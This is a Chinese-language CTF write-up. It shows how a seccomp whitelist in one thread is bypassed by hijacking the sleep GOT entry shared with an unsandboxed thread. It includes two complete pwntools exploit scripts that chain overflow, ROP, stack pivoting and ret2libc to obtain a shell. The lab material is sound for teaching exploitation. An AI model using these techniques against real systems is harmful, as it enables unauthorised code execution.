### README:

>   Seccomp(Secure computing mode) used for sandbox by allowing specific syscalls.
>   What happens if there are two threads and one thread enables seccomp?
>   Will the seccomp affect on other thread? Let's try.

### 保护策略：





可以看到这里的沙箱保护开的是一个白名单，只能使用read write sigreturn。如此看起来的话我们无法获取到flag(orw或者execve等等方式都不行)

### 程序分析：



在main函数里调用了pthread_create函数，该函数可以创建一个线程并调用safe_code函数(创建出来的线程去调用) 。

safe_code函数如下:



该函数就是在不断的循环执行sleep和puts


然后漏洞点如下:



这里存在一个栈溢出漏洞

最后是一个while永真循环(目的是让父进程一直卡在这里)



### 利用思路：

因为在本题里，程序开的沙箱根本无法让我们获取到shell，于是利用点转移到程序开的子进程上面。而子进程是不受到父进程开启的沙箱影响的，也就是说我们可以在利用子进程来获取shell。

本题虽然在父进程中有一个随便溢的漏洞，但是正常情况下这并不会干扰到子进程。

这里就需要补充一点知识:

> 子进程的栈区是父进程用mmap映射出来的一片内存(并不能在父进程里溢出篡改子进程的数据)
>
> bss段 data段以及代码段(以及got表)的数据是父进程和子进程之间所共享的

而这道题的保护是Partial RELRO，因此可以篡改got表，结合上面所说(got表是共享的)，如果我们能在父进程中劫持函数的got表，那么就意味着子进程中的got表同样被篡改。


而子进程一直在执行puts和sleep，看似没有劫持的机会，但是我们可以在父进程中劫持sleep函数的got表为代码段的某处地址，从而在子进程中再次执行到sleep函数的时候执行流被劫持到了代码段的某处。


如何篡改sleep的got表?

因为可以溢出到返回地址，所以我们直接布置rop链，传参调用read即可(控制read的第二个参数为sleep的got表)，然后往里面写入地址0x0804880c(如下)，这样当子进程再次执行sleep函数的时候就会跳转到0x0804880c的位置，执行read，从而在子进程给我们创造一个溢出的机会



值得一提的是，执行完read函数后，让父进程里的rop链返回地址为0x080488E9(保证让父进程处于一个死循环中，因为一旦父进程执行结束，而我们在子进程中还没有获取到shell，子进程也会随之结束)


补充:用gdb切换进程调试的方法是输入 thread number来切换(如下)



i thread可以看到当前能够切换的进程

然后thread number就可以切换过去，上图中输入了thread 2，就切换到了对应的子进程如下




然后现在拐回来继续说子进程中的rop,此时子进程上劫持sleep后，跳转到read的情况如下，可以发现我们能够继续溢出，从而再次劫持返回地址，现在的思路就是打一个ret2libc获取shell(子进程中的系统调用不会受到父进程中的沙箱影响)

此时的栈里情况如下:




最后一步也是本题最关键的一步，在puts函数即将结束的时候，gadget片段中出现了一个pop ebp(如下)



在最后的read溢出后，有个leave ret，而之前的ebp就决定了之后的返回地址(我们让之前的ebp为sleep的got地址(ebp是什么无所谓，只要能不崩溃并且写入数据就行)-0x408)




接下来read读入的数据直接溢出到返回地址处打一个最后的rop即可(如下)



### EXP:

[tools-函数库 | ZIKH26's Blog](http://localhost:4000/posts/ad411136.html)

```py
from tools import *
context.log_level='debug'
context.arch='i386'
p,e,libc=load("./lab","")
debug(p,0x0804880C)
payload=p32(0xdeadbeef)*0x102+p32(e.got['sleep']+0x408)+p32(e.plt['read'])+p32(0x080488E9)+p32(0)+p32(e.got['sleep'])+p32(0x40)
p.send(payload)
pause()
payload=p32(0x0804880C)#tamper sleep got
p.send(payload)
pause()
payload=b'a'*0x3b0+p32(e.got['sleep']+0x408)+b'a'*0x8+p32(e.plt['puts'])+p32(0x0804880c)+p32(e.got['puts'])
p.send(payload)
libc_base=recv_libc()-libc.symbols['puts']
log_addr('libc_base')
payload=b'a'*0x40c+p32(libc.symbols['system']+libc_base)+p32(0xdeadbeef)+p32(libc_base+0x0017e1db)
pause()
p.send(payload)
p.interactive()
```




winmt师傅也出了一道相关题目，思路同上，程序是64位的，但是溢出的字节比较少，需要几次栈迁移。(因为只有附件，我本地做的时候这两题采用的都是2.27的libc)

### EXP:

```py
from tools import *
context.log_level='debug'
p,e,libc=load('winmt_pwn')
pop_rdi=0x00000000004014a3
pop_rsi_r15=0x00000000004014a1
leave=0x4013E1
payload=b'a'*0x40+p64(0x4040A8+0x40)+p64(0x401384)
p.send(payload)
pause()
debug(p,0x4013BA)
payload=p64(pop_rdi)+p64(0)+p64(pop_rsi_r15)+p64(e.got['sleep'])+p64(0)
payload+=p64(e.plt['read'])+p64(0x4013BF)+p64(0)
payload+=p64(0x4040a8-8)+p64(leave)
p.send(payload)
pause()
payload=p64(0x401384)#temper got
p.send(payload)
pause()

payload=b'a'*0x10+b'b'*0x10 +p64(0x4040A8+0x40)*2+p64(pop_rdi)+p64(e.got['puts'])+p64(e.plt['puts'])+p64(0x401384)
p.send(payload)

libc_base=recv_libc()-libc.symbols['puts']
log_addr('libc_base')
sys_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base +next(libc.search(b"/bin/sh"))
pause()

execve=0x00000000000e4ae0+libc_base
payload=p64(0x40139C)+p64(pop_rdi)+p64(bin_sh_addr)+p64(0x0000000000023a6a+libc_base)+p64(0)+p64(libc_base+0x0000000000001b96)+p64(0)+p64(execve)
p.send(payload)
p.interactive()
```




### 题目附件:

lab

链接：https://pan.baidu.com/s/1bdYUW0iPjzEIZmqbfrYgVQ?pwd=j49z 
提取码：j49z

winmt_pwn

链接：https://pan.baidu.com/s/1CGJsIhTSyalb-cBgd011rA?pwd=3mrq 
提取码：3mrq
